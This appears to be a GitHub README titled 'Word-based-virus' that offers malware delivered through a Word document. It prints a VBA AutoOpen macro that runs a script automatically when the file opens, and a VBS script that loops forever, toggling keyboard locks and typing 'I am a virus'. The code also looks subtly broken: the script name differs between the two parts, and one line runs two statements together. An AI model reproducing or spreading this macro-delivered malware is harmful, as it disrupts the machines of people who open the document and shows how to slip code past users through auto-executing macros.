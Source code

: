 # Word-based-virus

Sending executables usually isn't the best option. 
But we can use VBA script Macro in a Word document in order to send a virus. 
You use these files at your own risk.

Detailed steps of how I made it and explanation of codes can be seen at:
https://www.youtube.com/watch?v=UCyQlx5fzGI

You can download and unzip the important stuff.rar file and find two files each has code:

In word macro:
-------------------------------

Sub AutoOpen()

Dim wb As String
Dim myPath As String
Dim myWb As String

wb = "number.vbs"
myPath = ActiveDocument.path
myWb = """" & myPath & "\" & wb & """"

' MsgBox myWb, 48

CreateObject("Wscript.Shell").Run myWb, 1, True


End Sub

-------------------------------

In EnableContent.vbs:
-------------------------------

set x=wscript.createobject ("wscript.shell") 
do 
wscript.sleep 100 x.sendkeys "{CAPSLOCK}" 
x.sendkeys "{NUMLOCK}" 
x.sendkeys "I am a virus " 
x.sendkeys "{SCROLLLOCK}" 
loop

-------------------------------
